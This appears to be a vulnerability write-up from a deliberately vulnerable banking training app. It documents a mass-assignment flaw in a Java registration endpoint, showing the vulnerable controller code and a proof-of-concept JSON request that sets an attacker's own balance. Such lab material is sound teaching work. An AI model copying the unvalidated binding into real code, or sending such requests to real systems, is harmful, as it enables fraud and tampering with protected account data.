 
### VULN-002: Software and Data Integrity Failures - Mass Assignment

**OWASP Category:** A08:2021 – Software and Data Integrity Failures  
**Severity:** 🟠 High  
**CWE ID:** CWE-915 (Improperly Controlled Modification of Dynamically-Determined Object Attributes)  
**Status:** ✅ Implemented

#### Description
The registration endpoint accepts raw User objects without validation, allowing attackers to set arbitrary fields including their account balance.

#### Vulnerable Code
**File:** `src/main/java/com/vulnbank/api/controller/AuthController.java`  
**Line:** 15
```java
@PostMapping("/register")
public ResponseEntity<?> register(@RequestBody User user) {
    // VULNERABILITY: Accepts all User fields without validation
    // Attacker can set balance, id, or any other field
```

#### Proof of Concept
**Normal Registration:**
```json
POST /api/auth/register
{
    "username": "normaluser",
    "email": "normal@example.com",
    "password": "password123"
}
// Result: balance = 0.0
```

**Malicious Registration:**
```json
POST /api/auth/register
{
    "username": "hacker",
    "email": "hacker@example.com",
    "password": "password123",
    "balance": 9999999.99
}
// Result: balance = 9999999.99 (attacker sets own balance!)
```

#### Impact
- **Financial Loss:** Users create accounts with arbitrary balances
- **Business Logic Bypass:** Circumvents all balance validation
- **Data Integrity:** Attackers modify protected fields
- **Privilege Escalation:** Could set admin flags if they existed
